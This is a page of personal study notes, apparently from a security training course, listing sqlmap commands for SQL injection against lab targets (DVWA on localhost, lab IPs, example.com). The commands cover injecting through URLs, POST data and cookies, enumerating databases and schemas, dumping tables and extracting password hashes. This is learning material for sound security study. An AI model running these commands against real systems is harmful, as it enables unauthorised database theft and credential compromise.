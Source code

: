 ```yaml
---
{"dg-publish":true,"permalink":"/sqlmap-examples/"}
---
```


	```bash
sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id='+OR+'q1'+=+'2&Submit=Submit" --cookie "PHPSSID=712ol0bcaomgr09uvtgu16p7mr" 
```

```bash
sqlmap --parse-errors --batch -u http://94.237.59.174:40519/case1.php?id=1
```

## Working on [[burpsuite\|burpsuite]] output

```shell-session
sqlmap -r req.txt
```

## [[HTTP POST Method\|POST]] Data

```bash
sqlmap --parse-errors --batch -u http://94.237.54.192:48599/case2.php --data 'id=*'
```

## Working on [[curl\|curl]] outputs

```bash
curl 'http://94.237.59.174:40519/case3.php' -b 'id=2'
```

```bash
sqlmap --parse-errors --batch -u 'http://94.237.54.192:48599/case3.php' --cookie 'id=*'
```
## Prefix

```
sqlmap --parse-errors --batch -u "http://83.136.253.201:56959/case6.php?col=*"  --dump -T flag6 -D testdb --no-cast --level=5 --risk=3 --prefix=
'`)'
```


## Table Enumuration

View tables in a database `testdb`
```shell-session
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```


## [[sqlmap - data enumuration\|sqlmap - data enumuration]]



```shell-session
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```


## Dump table content

Dump content from table `users`
```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb
```

```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```
### Columns

```shell-session
torsho@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
```


Only columns 2, 3

```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3
```

## Conditional Enumuration

```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```


## Get Schema of Database

```shell-session
sqlmap -u "http://www.example.com/?id=1" --schema
```


## Search for schema

```shell-session
sqlmap -u "http://www.example.com/?id=1" --search -T user
```

```
sqlmap --batch -r case1.req.txt --dbms=MySQL --search -C style
```

## Get passwords

```shell-session
sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```